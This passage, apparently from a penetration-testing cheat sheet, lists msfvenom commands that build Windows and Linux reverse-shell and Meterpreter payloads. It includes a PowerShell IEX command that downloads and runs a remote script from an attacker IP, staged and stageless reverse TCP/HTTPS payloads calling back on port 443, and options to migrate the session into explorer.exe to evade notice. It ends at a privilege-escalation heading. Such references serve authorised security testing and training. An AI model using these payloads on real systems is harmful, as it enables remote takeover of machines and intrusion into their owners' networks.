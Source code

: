 ```console
msfvenom -a x86 --platform windows -p windows/exec CMD="powershell \"IEX(New-Object Net.WebClient).downloadString('http://192.168.42.42/Invoke-PowerShellTcp.ps1')\"" -e x86/unicode_mixed BufferRegister=EAX -f python
```

```console
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.42.42 lport=443 -f csharp
```

We can also use it with the following parameters for migration

```console
msfvenom -a x64 -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.59 LPORT=443 EnableStageEncoding=True PrependMigrate=True -f csharp
```

Or either, in the `msfconsole` add the parameter `AutoRunScript`, the following will try to migrate our reverse too explorer.exe:

```console
set AutoRunScript post/windows/manage/migrate name=explorer.exe spawn=false
```

### Windows staged reverse TCP

```console
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.42.42 LPORT=443  EXITFUNC=thread -f exe -a x86 --platform windows -o reverse.exe
 ```

### Windows stageless reverse TCP

 ```console
 msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.42.42 LPORT=443 -f exe -o <output_name.format>
 ```

### Linux staged reverse TCP

 ```console
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.42.42 LPORT=443 -f elf -o <outout_name>.elf
 ```

### Linux staged reverse TCP

 ```console
 msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.42.42 LPORT=443 -f elf -o <outout_name>.elf
 ```

## Privilege escalation

### Windows

#### Run-As
